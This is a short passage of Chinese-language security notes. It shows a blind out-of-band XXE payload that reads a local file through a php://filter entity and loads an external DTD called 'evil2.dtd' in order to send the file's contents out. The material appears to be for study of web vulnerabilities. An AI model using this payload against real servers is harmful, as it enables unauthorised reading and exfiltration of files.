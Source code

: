 ![](image39/QQ截图20220329205800.png)



![](image39/QQ截图20220329210635.png)





#### 无回显-读取文件

```xml

<?xml version="1.0"?>
<!DOCTYPE test [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=d:/test.txt">
<!ENTITY % dtd SYSTEM "http://127.0.0.1:80/evil2.dtd">
%dtd;
%send;
]>

```
